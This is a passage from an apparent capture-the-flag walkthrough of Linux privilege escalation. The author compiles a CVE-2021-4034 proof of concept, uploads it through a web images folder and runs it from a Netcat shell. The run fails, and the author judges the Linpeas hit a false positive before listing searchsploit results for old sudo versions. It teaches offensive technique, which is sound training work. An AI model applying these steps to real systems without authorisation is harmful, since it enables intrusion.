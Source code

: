 ```bash
gcc cve-2021-4034-poc.c -o cve-2021-4034-poc
```

Then, similar to above, create a zip with `7z a ./cve-2021-4034.zip ./cve-2021-4034-poc`. Upload that into the "Images" folder.

Finally, from your Netcat prompt, switch to that same `/var/www/html/assets/images` folder, and then execute the exploit:

```bash
./cve-2021-4034-poc
```

Unfortunately, I got output like this:

```bash
bash: ./cve-2021-4034-poc: Permission denied
```

[Upon further research](https://github.com/arthepsy/CVE-2021-4034/issues/5#issuecomment-1033743533) like [here for example](https://nsfocusglobal.com/linux-polkit-privilege-escalation-vulnerability-cve-2021-4034/), it turns out this vulnerability fixed in `pkexec` version `0.105`, which is the exact version I have (running: `pkexec --version`).

> **Looks like this is a false-positive for Linpeas.**

NEXT, from the [Linpeas output](./linpeas.log), it's also mentioning that we have an older version of `sudo` (version `1.8.16`). So, back to `searchsploit`:

```bash
searchsploit sudo
```

We get a bunch of findings here:

```
---------------------------------------------------------------------------------------- -------------------------
 Exploit Title     |  Path
---------------------------------------------------------------------------------------- -------------------------
(Tod Miller's) Sudo/SudoEdit 1.6.9p21/1.7.2p4 - Local Privilege Escalation             | multiple/local/11651.sh
Apple Mac OSX - Sudo Password Bypass (Metasploit)                                      | osx/local/27944.rb
Battery Life Toolkit 1.0.9 - 'bltk_sudo' Local Privilege Escalation                    | linux/local/33576.txt
ptrace - Sudo Token Privilege Escalation (Metasploit)                                  | linux/local/47345.rb
RedStar 3.0 Desktop - Enable sudo Privilege Escalation                                 | linux/local/35746.sh
Sudo 1.3.1 < 1.6.8p (OpenBSD) - Pathname Validation Privilege Escalation               | bsd/local/1087.c
Sudo 1.5/1.6 - Heap Corruption                                                         | linux/local/20901.c
Sudo 1.6.3 - Unclean Environment Variable Privilege Escalation                         | linux/local/21227.sh
Sudo 1.6.8 - Information Disclosure                                                    | linux/local/24606.c
Sudo 1.6.8p9 - SHELLOPTS/PS4 Environment Variables Privilege Escalation                | linux/local/1310.txt
Sudo 1.6.9p18 - 'Defaults SetEnv' Local Privilege Escalation                           | multiple/local/7129.sh
Sudo 1.6.x - Environment Variable Handling Security Bypass (1)                         | linux/local/27056.pl
Sudo 1.6.x - Environment Variable Handling Security Bypass (2)                         | linux/local/27057.py
Sudo 1.6.x - Password Prompt Heap Overflow                                             | linux/local/21420.c
```